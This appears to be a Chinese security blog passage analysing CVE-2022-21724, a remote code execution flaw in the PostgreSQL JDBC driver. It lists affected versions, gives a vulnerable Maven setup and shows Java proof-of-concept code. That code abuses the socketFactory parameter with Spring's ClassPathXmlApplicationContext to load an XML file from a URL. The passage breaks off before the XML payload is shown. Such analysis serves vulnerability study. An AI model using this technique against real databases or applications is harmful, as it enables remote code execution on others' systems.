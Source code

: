 0x00 前言
=======

在我不清楚这个漏洞的触发原因时，还傻乎乎的先搭建了个PostgreSQL数据库。。。

0x01 RCE 漏洞描述
=============

PostgreSQL JDBC Driver是一个用 Pure Java（Type 4）编写的开源 JDBC 驱动程序，用于 PostgreSQL 本地网络协议中进行通信。

PostgreSQL JDBC Driver（简称 PgJDBC）存在安全漏洞，该漏洞源于pgjdbc连接属性提供的类名实例化插件实例，驱动程序在实例化类之前并不验证类是否实现了预期的接口从而导致远程代码。

影响版本
----

根据NVD报道：  
• &lt; 42.2.25  
• &gt;= 42.3.0，&lt; 42.3.2

漏洞分析
----

首先我们在本地构造一个触发该漏洞的环境，先在`pom.xml`引入存在漏洞的`PostgreSQL`依赖

```xml
<!-- https://mvnrepository.com/artifact/org.postgresql/postgresql -->
<dependency>
    <groupId>org.postgresql</groupId>
    <artifactId>postgresql</artifactId>
    <version>42.3.0</version>
<dependency>
<dependency>
    <groupId>org.springframework</groupId>
    <artifactId>spring-context-support</artifactId>
    <version>4.1.4.RELEASE</version>
</dependency>
```

根据前面提到的参考链接，我们构造以下漏洞验证代码

```java
import java.sql.DriverManager;

public class cve_2022_21724 {
    public static void main(String[]args)throws Exception{
        String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
        String socketFactoryArg = "http://127.0.0.1/poc.xml";
        String dbUrl = "jdbc:postgresql:///?socketFactory="+socketFactoryClass+"&amp;socketFactoryArg="+socketFactoryArg;
        System.out.println(dbUrl);
        DriverManager.getConnection(dbUrl);
    }
}
```
